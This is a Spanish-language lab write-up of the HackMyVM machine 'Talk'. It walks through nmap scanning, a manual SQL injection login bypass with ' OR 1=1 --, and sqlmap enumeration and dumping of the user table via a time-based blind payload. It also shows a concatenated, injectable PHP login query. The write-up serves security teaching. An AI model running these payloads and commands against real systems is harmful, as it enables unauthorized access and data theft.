


# Talk (HackMyVM) — Writeup centrado en **SQL Injection** y **sqlmap**

> **Importante:** en esta máquina **no nos interesa completar toda la explotación**.  
> El objetivo de este documento es usarla como laboratorio para practicar y entender muy bien:
>
> - detección manual de SQL Injection,
> - captura de la petición real con Burp Suite,
> - uso correcto de `sqlmap` sobre una petición guardada,
> - y comprensión profunda del tipo de inyección que detecta la herramienta.
>
> La idea es que esto no sea una simple chuleta de comandos, sino un material de estudio útil para alguien que está viendo estos conceptos por primera vez.

---

# Índice

1. [Contexto de virtualización: por qué falla en VMware](#1-contexto-de-virtualización-por-qué-falla-en-vmware)
2. [Por qué usamos VirtualBox para la víctima y VMware para Kali](#2-por-qué-usamos-virtualbox-para-la-víctima-y-vmware-para-kali)
3. [Configuración de red en modo puente, muy bien explicada](#3-configuración-de-red-en-modo-puente-muy-bien-explicada)
4. [Verificación de IP de Kali con `ip a`](#4-verificación-de-ip-de-kali-con-ip-a)
5. [Preparación del directorio de trabajo](#5-preparación-del-directorio-de-trabajo)
6. [Descubrimiento de hosts con `nmap -sn`](#6-descubrimiento-de-hosts-con-nmap--sn)
7. [Qué es una MAC y qué es un OUI](#7-qué-es-una-mac-y-qué-es-un-oui)
8. [Por qué la víctima es `192.168.1.117`](#8-por-qué-la-víctima-es-1921681117)
9. [Escaneo completo de puertos y servicios](#9-escaneo-completo-de-puertos-y-servicios)
10. [Interpretación técnica del puerto 22 (SSH)](#10-interpretación-técnica-del-puerto-22-ssh)
11. [Interpretación técnica del puerto 80 (HTTP)](#11-interpretación-técnica-del-puerto-80-http)
12. [Primer vistazo a la aplicación `chatME`](#12-primer-vistazo-a-la-aplicación-chatme)
13. [Prueba manual de SQL Injection: bypass con `' OR 1=1 --`](#13-prueba-manual-de-sql-injection-bypass-con--or-11---)
14. [Qué consulta SQL vulnerable suele haber detrás](#14-qué-consulta-sql-vulnerable-suele-haber-detrás)
15. [Explicación precisa de por qué ese payload funciona](#15-explicación-precisa-de-por-qué-ese-payload-funciona)
16. [Entramos como `PaoPao`: qué significa eso](#16-entramos-como-paopao-qué-significa-eso)
17. [Captura de la petición con Burp Suite](#17-captura-de-la-petición-con-burp-suite)
18. [Análisis línea por línea de la petición HTTP interceptada](#18-análisis-línea-por-línea-de-la-petición-http-interceptada)
19. [Guardar la petición en un `.txt` para `sqlmap`](#19-guardar-la-petición-en-un-txt-para-sqlmap)
20. [Qué es `sqlmap` y qué no hace mágicamente](#20-qué-es-sqlmap-y-qué-no-hace-mágicamente)
21. [Primera ejecución: `--dbs`](#21-primera-ejecución---dbs)
22. [Explicación profunda de `time-based blind`](#22-explicación-profunda-de-time-based-blind)
23. [Despiece línea por línea del payload que generó `sqlmap`](#23-despiece-línea-por-línea-del-payload-que-generó-sqlmap)
24. [Confirmación del DBMS: MySQL](#24-confirmación-del-dbms-mysql)
25. [Enumeración de tablas con `-D chat --tables`](#25-enumeración-de-tablas-con--d-chat---tables)
26. [Volcado de la tabla `user` con `--dump`](#26-volcado-de-la-tabla-user-con---dump)
27. [Análisis de los datos obtenidos](#27-análisis-de-los-datos-obtenidos)
28. [Metodología práctica que te conviene recordar](#28-metodología-práctica-que-te-conviene-recordar)
29. [Comandos usados](#29-comandos-usados)
30. [Ideas clave que tienes que quedarte sí o sí](#30-ideas-clave-que-tienes-que-quedarte-sí-o-sí)

---

# 1. Contexto de virtualización: por qué falla en VMware

Al intentar importar la máquina en VMware aparece el error de la **imagen 1**.


## Qué significa realmente ese error

Una máquina `.ova` no es “un archivo mágico”.  
Por dentro suele contener, entre otras cosas:

- un descriptor `.ovf`, que es básicamente un XML,
- uno o varios discos virtuales,
- y metadatos de la máquina.

Ese fichero XML describe:

- la CPU,
- la memoria,
- el tipo de adaptador de red,
- el almacenamiento,
- y otros elementos del hardware virtual.

Cuando VMware da errores del estilo:

- `Unsupported element 'Caption'`
- `Unsupported element 'Description'`
- `Unsupported element 'InstanceId'`
- `Unsupported element 'ResourceType'`

lo que suele estar diciendo en la práctica es:

> “Este descriptor OVF usa elementos o una variante del estándar que mi importador no está interpretando correctamente”.

## Lo importante aquí

Esto **no significa necesariamente**:

- que la máquina esté corrupta,
- que la descarga esté rota,
- o que hayas hecho algo mal.

Significa, normalmente, que **esa OVA concreta no le gusta a tu versión/configuración de VMware**.

## Decisión práctica correcta

Como la víctima falla en VMware, se opta por:

- **Kali en VMware**
- **Talk en VirtualBox**

Eso es totalmente válido, pero te obliga a resolver bien la conectividad entre ambas.

---

# 2. Por qué usamos VirtualBox para la víctima y VMware para Kali

La razón es simple:

- Kali ya la tienes funcionando en VMware.
- La víctima no importa bien ahí.
- VirtualBox sí suele aceptar esas OVAs sin problema.

El reto, por tanto, deja de ser “cómo importarla” y pasa a ser:

> “¿Cómo consigo que una VM en VMware y otra en VirtualBox se vean entre sí?”.

Y la respuesta práctica aquí es:

> **poniendo ambas en modo puente sobre la misma tarjeta física real**.

---

# 3. Configuración de red en modo puente, muy bien explicada

## 3.1. Configuración en VirtualBox

En VirtualBox:

- importas la máquina,
- la seleccionas,
- vas a `Configuración > Red > Adaptador 1`,
- eliges `Conectar a: Adaptador Puente`,
- y en **Nombre** eliges la interfaz de la **imagen 2**.


## ¿Por qué exactamente esa tarjeta?

Porque esa es la interfaz física real del host que está conectada a la red.

Si en tu host estás usando WiFi, entonces normalmente la interfaz correcta será la tarjeta inalámbrica real, por ejemplo algo tipo:

- MediaTek Wi‑Fi,
- Intel Wireless,
- Realtek Wireless,
- etc.

Elegir esa interfaz significa:

> “Haz que esta VM use la misma red física real a la que mi PC host está conectado”.

### Si eliges una interfaz incorrecta

pueden pasar cosas como:

- la VM no obtiene IP,
- la VM no tiene conectividad real,
- o queda “enganchada” a un adaptador que no está siendo usado.

---

## 3.2. Configuración en VMware

Después haces algo equivalente en VMware para Kali:

- `Editar > Editor de red virtual`
- en la VMnet correspondiente,
- seleccionas **modo puente**,
- y eliges **la misma interfaz física** que usaste en VirtualBox.

Como en la **imagen 3**.


### Por qué tiene que ser la misma

Porque aquí el objetivo no es solo que “las dos tengan Internet”.

El objetivo es que ambas estén realmente en el **mismo segmento de red**.

Si una queda puenteada sobre una interfaz y la otra sobre otra distinta, puedes encontrarte con:

- rutas raras,
- conectividad parcial,
- o directamente que no se vean como esperas.

---

## 3.3. Configuración dentro de la propia Kali

Finalmente, dentro de la configuración de la VM de Kali, la pones también en `Conexión en puente`, como en la **imagen 4**.


### ¿Por qué al hacer esto “se corta la red” un momento?

Porque al cambiar el modo de red:

- la interfaz virtual deja la red anterior,
- renegocia en la red nueva,
- y normalmente vuelve a pedir dirección IP por DHCP.

Es totalmente normal que durante unos segundos:

- se pierda la conectividad,
- cambie la IP,
- o se renueve la configuración de red.

---

## 3.4. Qué hace realmente el modo puente

Esto es importante que lo entiendas bien.

### NAT
En NAT, la VM suele quedar detrás de una red virtual privada del hipervisor.

### Puente
En puente, la VM se comporta como **un dispositivo más en la red real**.

Eso implica que:

- el router la puede ver,
- le puede asignar IP,
- y otros equipos de esa misma red también pueden verla.

### Traducción sencilla
Tu VM deja de estar “escondida detrás del host” y pasa a aparecer como si fuese:

- otro portátil,
- otro móvil,
- otra TV,
- o cualquier otro equipo conectado a la red de casa.

Por eso luego, al escanear, ves un montón de dispositivos reales de tu WiFi doméstica.

---

# 4. Verificación de IP de Kali con `ip a`

En Kali ejecutas:

```bash
ip a
```

y te fijas en la interfaz que te interesa, aquí `eth0`, como en la **imagen 5**.



La línea clave que indicas es:

```bash
inet 192.168.1.41/24
```

## Desglose exacto

### `192.168.1.41`
Es la IP actual de tu Kali.

### `/24`
Es la máscara en notación CIDR.  
Equivale a:

```bash
255.255.255.0
```

### Qué red define eso
La red es:

```bash
192.168.1.0/24
```

### Qué implica en la práctica
Que los hosts de esa red estarán, simplificando, entre:

```bash
192.168.1.1
```

y

```bash
192.168.1.254
```

---

# 5. Preparación del directorio de trabajo

```bash
cd ~/Desktop
cd HackMyVM
mkdir Talk
cd Talk
```

Esto parece simple, pero es buena práctica.

## Por qué conviene hacerlo

Porque aquí luego vas a guardar:

- el `fullscan`,
- la petición HTTP que guardarás para `sqlmap`,
- posibles notas,
- resultados,
- y cualquier artefacto del laboratorio.

Tener una carpeta por máquina evita mezclar cosas de unas resoluciones con otras.

---

# 6. Descubrimiento de hosts con `nmap -sn`

Comando:

```bash
sudo nmap -n -sn 192.168.1.41/24
```

## Explicación de flags

### `sudo`
Permite a Nmap usar más capacidades a bajo nivel.

### `-n`
No resuelve DNS.

Ventajas:

- va más rápido,
- no mete consultas innecesarias,
- y el output sale limpio, centrado en IPs.

### `-sn`
Host discovery only.

Es decir:

- busca quién está vivo,
- pero no enumera puertos aún.

---

## Qué está haciendo Nmap realmente aquí

Como estás en una red local, para descubrir hosts Nmap suele apoyarse mucho en ARP.

Es decir, hace algo conceptualmente parecido a:

> “¿Quién tiene esta IP? Respóndeme con tu MAC”.

Por eso esta fase es muy fiable en LAN.

---

## Salida obtenida

```text
Nmap scan report for 192.168.1.1
...
Nmap scan report for 192.168.1.33
...
Nmap scan report for 192.168.1.34
...
Nmap scan report for 192.168.1.40
...
Nmap scan report for 192.168.1.90
...
Nmap scan report for 192.168.1.117
MAC Address: 08:00:27:04:4B:C4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
...
Nmap scan report for 192.168.1.200
...
Nmap scan report for 192.168.1.41
Host is up.
```

## Por qué aparecen tantas IPs

Porque estás en **modo puente**, no en una red privada interna de VMware.

Eso significa que al escanear:

```bash
192.168.1.0/24
```

no ves solo tus VMs.

Ves también:

- el router,
- otros dispositivos de tu casa,
- móviles,
- IoT,
- tu propia Kali,
- y la víctima.

---

# 7. Qué es una MAC y qué es un OUI

## 7.1. Qué es una dirección MAC

La MAC es la dirección de hardware de una interfaz de red.

Tiene 6 bytes, normalmente representados como 6 pares hexadecimales:

```text
08:00:27:04:4B:C4
```

## 7.2. Qué es el OUI

Los primeros 3 bytes forman el:

**Organizationally Unique Identifier**

En tu ejemplo:

```text
08:00:27
```

Ese prefijo identifica al fabricante.

## Ejemplos

- `08:00:27` → VirtualBox
- `00:0C:29` → VMware
- `48:E7:DA` → AzureWave
- `A4:43:8C` → Arris

---

# 8. Por qué la víctima es `192.168.1.117`

La línea clave es:

```text
MAC Address: 08:00:27:04:4B:C4 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

Sabes que:

- la víctima la levantaste en VirtualBox,
- Kali está en VMware,
- y estás buscando la VM de VirtualBox.

Por tanto, la deducción correcta es:

```bash
192.168.1.117 = la víctima
```

No es magia.  
Es correlacionar:

- el fabricante de la NIC virtual
- con el hipervisor que usaste para esa máquina.

---

# 9. Escaneo completo de puertos y servicios

Comando:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.117
```

## Explicación de flags, una por una

### `-p-`
Escanea todos los puertos TCP del 1 al 65535.

### `--open`
Muestra solo los puertos abiertos.

### `-sC`
Lanza los scripts NSE por defecto.

Eso permite sacar cosas como:

- títulos web,
- cookies,
- métodos HTTP,
- banners,
- etc.

### `-sV`
Intenta detectar versión del servicio.

### `-Pn`
Asume el host vivo y no depende del ping previo.

### `-T5`
Temporización muy agresiva y rápida. En laboratorio suele usarse mucho.

### `-vvv`
Muchísima verbosidad.

### `-oN fullscan`
Guarda la salida en formato normal en un archivo llamado `fullscan`.

---

## Resultado

```text
22/tcp open ssh  OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp open http nginx 1.14.2
http-title: chatME
Supported Methods: GET HEAD POST
PHPSESSID: httponly flag not set
```

---

# 10. Interpretación técnica del puerto 22 (SSH)

```text
22/tcp open ssh syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2
```

## Qué te dice esto

### `22/tcp`
Puerto SSH clásico.

### `open`
Hay un servicio escuchando.

### `syn-ack`
El host respondió al SYN con SYN/ACK, así que el puerto está abierto.

### `ttl 64`
Muy típico de Linux/Unix.

### `OpenSSH 7.9p1 Debian 10+deb10u2`
Servicio SSH concreto y versión detectada.

## Qué implica
SSH permite:

- acceso remoto por terminal,
- administración,
- ejecución de comandos,
- movimiento lateral si consigues credenciales.

## Las host keys
Nmap te muestra RSA, ECDSA y ED25519.

Eso es normal y sirve para:

- identificar el servidor,
- evitar MITM al conectar por SSH.

No es una vulnerabilidad en sí.

---

# 11. Interpretación técnica del puerto 80 (HTTP)

```text
80/tcp open http syn-ack ttl 64 nginx 1.14.2
```

## Qué te dice esto

### `nginx 1.14.2`
Servidor web nginx.

### `http-title: chatME`
Esto es muy importante:
no es una página por defecto, es una aplicación real.

### `Supported Methods: GET HEAD POST`
Métodos normales.  
No aparecen PUT o DELETE, que llamarían más la atención.

### `PHPSESSID`
La app usa sesiones PHP.

### `httponly flag not set`
La cookie de sesión no tiene flag `HttpOnly`.

## Qué significa eso
Que, si existiese una XSS, el JavaScript del navegador podría leer la cookie con más facilidad.

No es lo que vamos a explotar aquí, pero sí es un detalle interesante de seguridad.

---

# 12. Primer vistazo a la aplicación `chatME`

Abres:

```text
http://192.168.1.117/
```

y llegas al panel de login de `chatME`, como en la **imagen 6**.



## Qué sugiere esta web
Parece:

- una app con autenticación,
- probablemente en PHP,
- con sesiones,
- y con zona autenticada donde ver mensajes o salas.

Ese tipo de formulario es un candidato clásico para SQL Injection si el desarrollador construyó la consulta de login concatenando cadenas.

---

# 13. Prueba manual de SQL Injection: bypass con `' OR 1=1 --`

Pruebas el payload en usuario y contraseña:
```text
' OR 1=1 --
```

y consigues entrar en:

```text
/home.php
```

## Qué acabas de demostrar
Que el login es vulnerable a SQL Injection **manual**.

Eso es importantísimo, porque antes de usar `sqlmap` ya tienes una validación humana de que:

- la entrada del usuario está afectando a la lógica SQL,
- y la aplicación acepta una condición tautológica para autenticarse.

---

# 14. Qué consulta SQL vulnerable suele haber detrás

Una implementación insegura típica sería algo como:

```php
$user = $_POST['username'];
$pass = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
$result = mysqli_query($conn, $sql);
```

## Por qué eso es malo
Porque el contenido que mete el usuario se inserta directamente dentro de la query sin parametrizar.

No hay:

- prepared statements,
- validación seria,
- ni escapado correcto.

---

# 15. Explicación precisa de por qué ese payload funciona

Supongamos que introduces en `username`:

```text
' OR 1=1 --
```

y en `password` cualquier cosa.

La consulta resultante puede quedar conceptualmente así:

```sql
SELECT * FROM users
WHERE username = '' OR 1=1 -- ' AND password = 'loquesea';
```

## Desglose del payload

### `'`
La comilla simple cierra prematuramente la cadena del `username`.

### `OR 1=1`
Añade una condición que siempre es verdadera.

### `--`
Comenta el resto de la línea SQL, anulando lo que sigue, como la comprobación de la contraseña.

## Resultado lógico
La base de datos pasa a evaluar algo equivalente a:

> “Devuélveme una fila donde la condición sea verdadera”.

Como `1=1` siempre es `TRUE`, el `WHERE` se cumple y la consulta devuelve una fila válida.

La aplicación, al recibir una fila, interpreta:

> “login correcto”.

---

# 16. Entramos como `PaoPao`: qué significa eso

Después del bypass indicas que entras como `PaoPao`.

Esto es muy interesante porque te da dos pistas:

1. El login no solo ha pasado.
2. La aplicación ha usado una fila real de la tabla de usuarios para inicializar la sesión.

Más adelante verás que en el dump de la tabla `user` aparece:

- `username = pao`
- `your_name = PaoPao`
- `password = pao`

Eso refuerza totalmente lo que viste en la interfaz.

---

# 17. Captura de la petición con Burp Suite

Ahora haces el siguiente paso profesional correcto:

- abres Burp Suite,
- activas `Intercept`,
- activas FoxyProxy,
- envías un login cualquiera,
- Burp lo captura,
- y lo mandas a Repeater.

Esto es exactamente como hay que trabajar cuando quieres usar `sqlmap` con precisión.

---

# 18. Análisis línea por línea de la petición HTTP interceptada

Petición capturada:

```http
POST /login.php HTTP/1.1

Host: 192.168.1.117

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 29

Origin: http://192.168.1.117

Connection: keep-alive

Referer: http://192.168.1.117/index.php?attempt=failed

Cookie: PHPSESSID=9qgh3q8addn025s7fjct0pc3s8

Upgrade-Insecure-Requests: 1

Priority: u=0, i


username=tonto&password=tonto
```

Vamos parte por parte.

---

## `POST /login.php HTTP/1.1`

### `POST`
Método HTTP para enviar datos en el cuerpo de la petición.

### `/login.php`
El recurso que procesa el login.

### `HTTP/1.1`
Versión del protocolo.

---

## `Host: 192.168.1.117`
Le dice al servidor a qué host va dirigida la petición.  
Muy importante cuando hay virtual hosts, aunque aquí estás por IP.

---

## `User-Agent`
Identifica el navegador y plataforma.  
No es el centro del ataque, pero forma parte de la petición real.

---

## `Accept`
Qué tipos de contenido acepta el navegador como respuesta.

---

## `Accept-Language`
Preferencias de idioma.

---

## `Accept-Encoding`
Compresión aceptada por el cliente.

---

## `Content-Type: application/x-www-form-urlencoded`

Esto es importantísimo.

Significa que el body tiene formato de formulario HTML tradicional:

```text
clave=valor&clave2=valor2
```

Justo lo que ves al final:

```text
username=tonto&password=tonto
```

---

## `Content-Length: 29`
Tamaño del body en bytes.

---

## `Origin`
Indica el origen de la petición.

---

## `Connection: keep-alive`
Pide mantener la conexión abierta si es posible.

---

## `Referer`
Te dice desde qué página salió la petición.  
Aquí además revela:

```text
index.php?attempt=failed
```

lo cual sugiere que la aplicación marca intentos fallidos por parámetro.

---

## `Cookie: PHPSESSID=...`
Esta es la cookie de sesión.

Muy importante porque puede ser necesaria para:

- mantener el flujo esperado por la app,
- o para que la petición que lances con herramientas siga pareciendo legítima dentro de esa sesión.

---

## Body

```text
username=tonto&password=tonto
```

Esto es el corazón del asunto.

Son los parámetros reales que:

- la aplicación recibe,
- el backend procesa,
- y `sqlmap` va a intentar explotar.

---

# 19. Guardar la petición en un `.txt` para `sqlmap`

Lo guardas con:

```bash
nano peticion.txt
```

y pegas la petición completa.

## Por qué esto es mejor que usar solo una URL

Porque si lanzaras `sqlmap` solo con `-u`, tendría que:

- adivinar el método,
- reconstruir el formulario,
- o no tener headers/cookie reales.

Con `-r peticion.txt`, en cambio, le estás dando:

- la ruta exacta,
- el método exacto,
- los parámetros reales,
- y el contexto HTTP real.

Eso hace el análisis mucho más fiel y fiable.

---

# 20. Qué es `sqlmap` y qué no hace mágicamente

## Qué es
Una herramienta de automatización de SQL Injection.

## Qué hace bien
Puede:

- detectar si un parámetro es vulnerable,
- inferir el tipo de DBMS,
- enumerar bases de datos,
- tablas,
- columnas,
- y extraer datos.

## Qué no sustituye
No sustituye entender la vulnerabilidad.

En este caso, tú hiciste lo correcto:

1. validaste manualmente con un payload simple,
2. comprobaste el bypass,
3. y **después** pasaste a automatizar.

Ese orden es el bueno.

---

# 21. Primera ejecución: `--dbs`

Comando:

```bash
sqlmap -r peticion.txt --dbs --batch
```

## Explicación de flags

### `-r peticion.txt`
Usa la petición HTTP guardada.

### `--dbs`
Si encuentra la vulnerabilidad, enumera las bases de datos.

### `--batch`
Responde automáticamente a las preguntas interactivas usando opciones por defecto.

---

## Resultado importante

`sqlmap` detecta:

```text
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=tonto' AND (SELECT 9971 FROM (SELECT(SLEEP(5)))kxMW) AND 'Txrm'='Txrm&password=tonto
```

Y además:

```text
the back-end DBMS is MySQL
```

Y lista:

```text
chat
information_schema
mysql
performance_schema
```

---

# 22. Explicación profunda de `time-based blind`

Esto es una de las partes más importantes de todo el laboratorio.

## ¿Qué significa “blind”?
Que la aplicación no te devuelve fácilmente los resultados SQL o errores bonitos en pantalla de forma que puedas leer directamente la información.

Es decir:

- la inyección existe,
- pero no es trivialmente “visible” en la respuesta.

## ¿Qué significa “time-based”?
Que la herramienta usa el **tiempo de respuesta** como canal lateral.

### Idea básica
Si consigo inyectar una condición que haga que la base de datos espere 5 segundos, y observo que la respuesta tarda 5 segundos, entonces sé que la consulta se está ejecutando realmente.

No necesito ver los datos.  
Me basta con ver el retraso.

---

# 23. Despiece línea por línea del payload que generó `sqlmap`

Payload:

```text
username=tonto' AND (SELECT 9971 FROM (SELECT(SLEEP(5)))kxMW) AND 'Txrm'='Txrm&password=tonto
```

Vamos a desmontarlo.

## `tonto'`
Cierra la cadena original del valor del parámetro `username`.

## `AND`
Introduce una condición adicional a la consulta original.

## `(SELECT 9971 FROM (SELECT(SLEEP(5)))kxMW)`
Aquí está la parte importante.

### `SLEEP(5)`
Hace que MySQL espere 5 segundos.

### `SELECT(SLEEP(5))`
Envuelve ese `SLEEP` dentro de una subconsulta.

### `kxMW`
Es un alias para la subconsulta.

En MySQL, muchas subconsultas en `FROM` necesitan alias, así que esto ayuda a mantener sintaxis válida.

### `SELECT 9971 FROM (...)`
Devuelve un valor arbitrario (`9971`) tras ejecutar la subconsulta.  
El valor concreto aquí no importa demasiado; lo que importa es que se ejecute el `SLEEP(5)`.

## `AND 'Txrm'='Txrm'`
Es una comparación constante siempre verdadera.

Esto ayuda a que la expresión completa siga teniendo sentido lógico y sintáctico.

## ¿Por qué `sqlmap` no usa algo más simple?
Porque intenta generar payloads:

- robustos,
- compatibles con el DBMS,
- y a veces útiles para evadir filtros o mantener sintaxis válida en distintos contextos.

No siempre usa el payload más “bonito”; usa uno que funcione de forma consistente.

---

# 24. Confirmación del DBMS: MySQL

`sqlmap` te dice:

```text
the back-end DBMS is MySQL
```

Eso importa muchísimo porque a partir de ahí:

- usa payloads propios de MySQL,
- consulta metadatos al estilo de MySQL,
- y adapta toda la enumeración a ese motor.

---

# 25. Enumeración de tablas con `-D chat --tables`

Como la base interesante claramente es `chat`, haces:

```bash
sqlmap -r peticion.txt -D chat --tables --threads 10 --batch
```

## Explicación de flags nuevas

### `-D chat`
Selecciona la base de datos `chat`.

### `--tables`
Lista las tablas de esa base.

### `--threads 10`
Usa 10 hilos para ir más rápido.

## Resultado

```text
Database: chat
[3 tables]
+-----------+
| user      |
| chat      |
| chat_room |
+-----------+
```

## Interpretación
Tiene sentido para una aplicación de chat:

- `user` → usuarios
- `chat` → mensajes
- `chat_room` → salas

Y la tabla que más nos interesa para el laboratorio es `user`.

---

# 26. Volcado de la tabla `user` con `--dump`

Comando:

```bash
sqlmap -r peticion.txt -D chat -T user --dump --threads 10 --batch
```

## Explicación

### `-T user`
Selecciona la tabla `user`.

### `--dump`
Extrae sus filas.

## Resultado

```text
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrianthebest   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsmynonapass | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriendtom     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | davidwhatpass   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

---

# 27. Análisis de los datos obtenidos

## 27.1. Contraseñas en texto claro
Esto es gravísimo desde el punto de vista defensivo.

Las contraseñas no deberían almacenarse así.

## 27.2. Correlación con el login como `PaoPao`
Aquí ves:

- `username = pao`
- `your_name = PaoPao`
- `password = pao`

Eso encaja perfectamente con lo que observaste tras el bypass.

## 27.3. Reutilización potencial
En una explotación completa, podrías probar si algunas de estas credenciales sirven para otros servicios, pero aquí no seguimos porque el objetivo del laboratorio es SQLi + sqlmap.

---

# 28. Metodología práctica que te conviene recordar

La metodología correcta aquí ha sido:

1. detectar el formulario interesante,
2. probar manualmente un payload sencillo,
3. confirmar que el comportamiento cambia,
4. capturar la petición real con Burp,
5. guardarla en un archivo,
6. lanzar `sqlmap` sobre la petición real,
7. y recorrer el embudo:
   - `--dbs`
   - `--tables`
   - `--dump`

Esto es mucho mejor que usar `sqlmap` “a ciegas”.

---

# 29. Comandos usados

```bash
ip a

cd ~/Desktop
cd HackMyVM
mkdir Talk
cd Talk

sudo nmap -n -sn 192.168.1.41/24

sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.117

sqlmap -r peticion.txt --dbs --batch

sqlmap -r peticion.txt -D chat --tables --threads 10 --batch

sqlmap -r peticion.txt -D chat -T user --dump --threads 10 --batch
```

---

# 30. Ideas clave que tienes que quedarte sí o sí

## Idea 1
Una SQL Injection no empieza con `sqlmap`.

Empieza cuando entiendes que el input del usuario está entrando mal en una query.

## Idea 2
El login vulnerable normalmente se rompe porque el desarrollador concatena cadenas en SQL.

## Idea 3
`time-based blind` significa que la inyección se confirma mediante el tiempo de respuesta, no porque la app te enseñe el resultado bonito en pantalla.

## Idea 4
`sqlmap` no es magia.  
Automatiza detección e inferencia, pero tú tienes que entender por qué la lógica funciona.

## Idea 5
Capturar la petición real con Burp y usar `-r peticion.txt` es una forma mucho más profesional y fiable de trabajar con formularios autenticados o complejos.

---

# Cierre

Este laboratorio, usado como práctica específica de SQL Injection, es muy bueno porque te permite ver las dos caras del problema:

- **cara manual**: el bypass con `' OR 1=1 --`
- **cara automatizada**: el uso de `sqlmap` para enumerar y extraer datos

Si entiendes bien este flujo, ya no estás “pulsando botones”.  
Estás entendiendo de verdad qué está pasando entre:

- el navegador,
- el servidor web,
- el backend PHP,
- y la base de datos MySQL.

